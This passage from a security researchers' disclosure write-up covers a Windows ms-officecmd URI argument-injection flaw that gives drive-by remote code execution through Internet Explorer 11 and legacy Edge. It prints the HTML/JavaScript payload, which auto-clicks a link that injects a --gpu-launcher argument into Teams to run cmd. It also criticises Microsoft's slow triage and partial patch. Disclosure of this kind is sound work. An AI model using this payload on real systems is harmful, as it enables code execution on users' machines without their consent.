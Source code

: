 ![](https://uploads-ssl.webflow.com/5f6498c074436c349716e747/614783a2939d3cc30e3f5c15_MSRC_report_flow.png)

MSRC report flow asking 'Does this repro on Windows Insider Dev Channel?'

Much to our surprise the exploit did not only work, but by simply adding some JavaScript which clicks the malicious link, the pre-installed Internet Explorer 11 and (now obsolete) 'Legacy' version of MS Edge could be abused to trigger the code execution without any user interaction beyond browsing a malicious website. Since our initial motivation was to improve on our previous attack scenario involving desktop applications which open arbitrary URIs, we had not thought about browser exploitation too much, and just assumed that all modern browsers have somewhat sensible security defaults when dealing with obscure schemes like `ms-officecmd`. That assumption proved to be wrong, as demonstrated here by MS Edge Legacy:

 <video src="" control></video>

 Drive-by RCE on Windows 10 via MS Edge

This is the payload used in the video above:

```
<html>
Exploit in progress <a id="l" href="ms-officecmd:{"id":3,"LocalProviders.LaunchOfficeAppForResult":{"details":{"appId":5,"name":"Teams","discovered":{"command":"teams.exe","uri":"msteams"}},"filename":"a:/b/%20--disable-gpu-sandbox%20--gpu-launcher=\"C:\\Windows\\System32\\cmd%20\/c%20ping%2016843009%20&&%20\""}}"></a>
<script>document.getElementById("l").click(); </script>

```

Armed with this piece of video evidence we submitted our report.

MSRC response
-------------

### Lack of technical understanding during triage

Our initial report was erroneously closed as not applicable one day after its submission.

> […] Unfortunately your report appears to rely on social engineering to accomplish, which would not meet the definition of a security vulnerability. […]

Only after our appeal was the issue reopened and classified as "Critical, RCE".

### Reluctant, slow communication

Our first email was answered after one week. Any communication attempt after that was typically met with several weeks of silence and required us to follow-up (see [timeline](#timeline) below).

### Insufficient remediation

The argument injection vulnerability described in this post is still present on fully patched Windows 10 and 11 systems. The patch that was issued after 5 months seems to only affect Teams and Skype in particular. While it does prevent exploitation of the RCE PoCs described here, we believe that there are likely other ways of exploiting the argument injection to achieve code execution.

After we brought this to Microsoft's attention, they said they have prepared another patch addressing the argument injection, and gave us the go-ahead to post this write-up independently of its rollout. At the time of publishing this blog post, we could still inject arbitrary arguments and perform e.g. the Outlook phishing attack on fully patched Windows 10/11 systems.
